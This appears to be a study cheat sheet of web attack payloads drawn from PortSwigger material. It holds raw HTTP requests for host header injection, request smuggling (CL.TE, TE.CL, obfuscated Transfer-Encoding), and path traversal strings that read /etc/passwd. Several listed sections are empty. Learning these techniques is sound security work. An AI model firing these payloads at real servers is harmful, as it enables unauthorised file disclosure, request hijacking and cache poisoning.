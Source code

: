 - [Host_Header_Injection](#Host_Header_Injection)
  - [Host_Header_Injection malicious port](#HHI_malicious_port)
  - [Host_Header_Injection malicious subdomain](#HHI_malicious_subdomain)
  - [Host_Header_Injection duplicate host headers](#HHI_duplicate_host_headers)
  - [Host Header Injection absolute URL](#HHI_absolute_URL)
  - [Host Header Injection line wrapping](HHI_line_wrapping)
  - [Host Header Injectio_inject_headers](#HHI_inject_headers)
  
- [Request Smuggling](#Request_smuggling)
  - [Request Smuggling Content-Length](#Content-Length)
  - [Request Smuggling Transfer-Encoding](#Transfer-Encoding)
  - [Request Smuggling Server behavior](#RS_server_behavior)
    - [CL.TE](#CL.TE)
    - [TE.CL](#TE.CL)
    - [TE.TE](#TE.TE)
    
- [Cross-origin resource sharing](#CORS)
   - []()
   - []()
   - []()

- [Server-side request forgery](#SSRF)
  - []()
  - []()
  
- [Server-side template injection](#SSTI)
  - []()
  - []()
  
- [WebSockets](#WebSockets)
  - []()
  - []()
  
- [Path Traversal](#Path_Traversal]
  - [Nasted traversal squences](#Nasted)
  - [Non-standard encodings](#Encoding)
  - [Null Byte](#Nullbyte)
  
# Host_Header_Injection

## HHI_malicious_port
```
GET /example HTTP/1.1
Host: vulnerable-website.com:bad-stuff-here
```

## HHI_malicious_subdomain
```
GET /example HTTP/1.1
Host: hacked-subdomain.vulnerable-website.com
```

## HHI_duplicate_host_headers
```
GET /example HTTP/1.1
Host: vulnerable-website.com
Host: bad-stuff-here
```

## HHI_absolute URL
```
GET https://vulnerable-website.com/ HTTP/1.1
Host: bad-stuff-here
```

## HHI_line wrapping
```
GET /example HTTP/1.1
 Host: bad-stuff-here
Host: vulnerable-website.com
```

## HHI_inject_headers
```
GET /example HTTP/1.1
Host: vulnerable-website.com
X-Forwarded-Host: bad-stuff-here

example headers
X-Host
X-Forwarded-Server
X-HTTP-Host-Override
Forwarded
```
------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Request_smuggling

## Content-Length
The Content-Length header is straightforward: it specifies the length of the message body in bytes
```
POST /search HTTP/1.1
Host: my-vulnerablewebsite.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```
## Transfer-Encoding
Message body contains one or more chunks of data. Each chunk consists of the chunk size in bytes (expressed in hexadecimal), followed by a newline, followed by the chunk contents. The message is terminated with a chunk of size zero.
```
POST /search HTTP/1.1
Host: my-vulnerablewebsite.com
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

b
q=smuggling
0
```
## RS_server_behavior

- CL.TE: The front-end server uses the Content-Length header, and the backend server uses Transfer-Encoding.
- TE.CL: the front-end server uses the Transfer-Encoding header, and the backend server uses the Content-Length header.
- TE.TE: The front-end and back-end servers support the Transfer-Encoding header, but one of the servers may be forced to not process it if it has been obfuscated.

### CL.TE
The front-end server processes the Content-Length header and determines that the request body is 13 bytes long, up to the end of SMUGGLED. This request is forwarded on to the back-end server. The back-end server processes the Transfer-Encoding header, and so treats the message body as using chunked encoding. It processes the first chunk, which is stated to be zero length, and so is treated as terminating the request. The following bytes, SMUGGLED, are left unprocessed, and the back-end server will treat these as being the start of the next request in the sequence.
```
POST / HTTP/1.1
Host: my-vulnerablewebsite.com
Content-Length: 13
Transfer-Encoding: chunked

0

SMUGGLED
```
### TE.CL
The front-end server processes the Transfer-Encoding header, and so treats the message body as using chunked encoding. It processes the first chunk, which is stated to be 8 bytes long, up to the start of the line following SMUGGLED. It processes the second chunk, which is stated to be zero length, and so is treated as terminating the request. This request is forwarded on to the back-end server.
The back-end server processes the Content-Length header and determines that the request body is 3 bytes long, up to the start of the line following 8. The following bytes, starting with SMUGGLED, are left unprocessed, and the back-end server will treat these as being the start of the next request in the sequence.
```
POST / HTTP/1.1
Host: my-vulnerablewebsite.com
Content-Length: 3
Transfer-Encoding: chunked

8
SMUGGLED
0
```
In Burp repeater 'Update Content-Length' option is unchecked.You need to include the ending sequence \ r \ n \ r \ n after the last 0.

### TE.TE
There are potentially endless ways to obfuscate the Transfer-Encoding header. For example:
```
Transfer-Encoding: xchunked
Transfer-Encoding : chunked
Transfer-Encoding: chunked
Transfer-Encoding: x
Transfer-Encoding:[tab]chunked
[space]Transfer-Encoding: chunked
X: X[\n]Transfer-Encoding: chunked
Transfer-Encoding
: chunked
```
To uncover a TE.TE vulnerability, it is necessary to find some variation of the Transfer-Encoding header such that only one of the front-end or back-end servers processes it, while the other server ignores it.

------------------------------------------------------------------------------------------------------------------------------------------------------------------

## Nasted
```
filename=....//....//....//etc//passwd
```
## Encoding
```
filename=..%252f..%252f..%252fetc%252fpasswd
```
## Nullbyte
```
filename=../../../etc/passwd%00.png 
```
References
- https://portswigger.net
